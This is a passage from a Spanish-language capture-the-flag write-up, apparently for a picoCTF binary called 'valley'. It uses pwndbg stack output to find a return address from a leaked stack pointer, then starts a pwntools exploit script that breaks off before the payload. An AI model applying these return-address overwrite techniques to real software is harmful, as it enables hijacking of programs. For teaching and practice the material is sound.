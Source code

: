 Nos queda averiguar cual es la dirección donde se guarda la dirección de retorno, que es la que tiene por valor la dirección en el puesto 21 del stack.

Vamos a usar el comando `telescope` para darle un vistazo a los elementos del stack:

```c
You heard in the distance: 0x7fffffffdca0

pwndbg> telescope $rsp 30
00:0000│ rsp 0x7fffffffdc20 ◂— 0x40
01:0008│-068 0x7fffffffdc28 ◂— 0xa
02:0010│-060 0x7fffffffdc30 ◂— 0x8000
03:0018│-058 0x7fffffffdc38 ◂— 0
04:0020│-050 0x7fffffffdc40 ◂— 0xb700000006
05:0028│-048 0x7fffffffdc48 ◂— 0
... ↓        7 skipped
0d:0068│-008 0x7fffffffdc88 —▸ 0x7ffff7fe4780 (dl_main) ◂— push rbp
0e:0070│ rbp 0x7fffffffdc90 —▸ 0x7fffffffdca0 ◂— 1
0f:0078│+008 0x7fffffffdc98 —▸ 0x555555555413 (main+18) ◂— mov eax, 0
10:0080│+010 0x7fffffffdca0 ◂— 1 // Aquí
```

Ojo a esto! La dirección leakeada del stack corresponde a la dirección a 16 bytes del rbp. Entre la dirección de nuestro leak y la dirección del RBP hay una dirección entremedias. Ahora viene lo importante, que es esa dirección?

Cuando un programa en C llama a una función lo primero que sucede es un push del RIP y luego un push del RBP, sabiendo esto podemos saber que la dirección entre nuestro leak y el RBP es la `` dirección de retorno` `` o , lo que es lo mismo, la dirección de retorno es:

```c
dirección de nuestro leak del stack - 8 bytes
```

Ahora que ya sabemos la dirección de la variable que queremos sobrescribir podemos preparar el script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./valley")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b main
piebase
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
    else:
        r = remote("shape-facility.picoctf.net", 49337)

    return r


def main():
    r = conn()

    offset_input = 6
    
```